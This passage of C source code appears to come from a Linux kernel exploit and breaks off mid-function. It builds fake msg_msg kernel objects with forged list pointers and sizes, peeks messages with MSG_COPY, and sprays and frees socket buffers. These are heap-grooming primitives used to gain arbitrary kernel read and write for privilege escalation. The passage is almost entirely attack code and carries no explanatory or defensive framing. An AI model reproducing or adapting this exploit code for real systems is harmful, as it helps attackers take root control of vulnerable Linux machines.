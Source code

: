```c

struct {
  long mtype;
  char mtext[SECONDARY_SIZE - MSG_MSG_SIZE];
} msg_secondary;

struct {
  long mtype;
  char mtext[PAGE_SIZE - MSG_MSG_SIZE + PAGE_SIZE - MSG_MSGSEG_SIZE];
} msg_fake;

void build_msg_msg(struct msg_msg *msg, uint64_t m_list_next,
                   uint64_t m_list_prev, uint64_t m_ts, uint64_t next) {
  msg->m_list_next = m_list_next;
  msg->m_list_prev = m_list_prev;
  msg->m_type = MTYPE_FAKE;
  msg->m_ts = m_ts;
  msg->next = next;
  msg->security = 0;
}

int write_msg(int msqid, const void *msgp, size_t msgsz, long msgtyp) {
  *(long *)msgp = msgtyp;
  if (msgsnd(msqid, msgp, msgsz - sizeof(long), 0) < 0) {
    perror("[-] msgsnd");
    return -1;
  }
  return 0;
}

int peek_msg(int msqid, void *msgp, size_t msgsz, long msgtyp) {
  if (msgrcv(msqid, msgp, msgsz - sizeof(long), msgtyp, MSG_COPY | IPC_NOWAIT) <
      0) {
    perror("[-] msgrcv");
    return -1;
  }
  return 0;
}

int read_msg(int msqid, void *msgp, size_t msgsz, long msgtyp) {
  if (msgrcv(msqid, msgp, msgsz - sizeof(long), msgtyp, 0) < 0) {
    perror("[-] msgrcv");
    return -1;
  }
  return 0;
}

int spray_skbuff(int ss[NUM_SOCKETS][2], const void *buf, size_t size) {
  for (int i = 0; i < NUM_SOCKETS; i++) {
    for (int j = 0; j < NUM_SKBUFFS; j++) {
      if (write(ss[i][0], buf, size) < 0) {
        perror("[-] write");
        return -1;
      }
    }
  }
  return 0;
}

int free_skbuff(int ss[NUM_SOCKETS][2], void *buf, size_t size) {
  for (int i = 0; i < NUM_SOCKETS; i++) {
    for (int j = 0; j < NUM_SKBUFFS; j++) {
      if (read(ss[i][1], buf, size) < 0) {
```
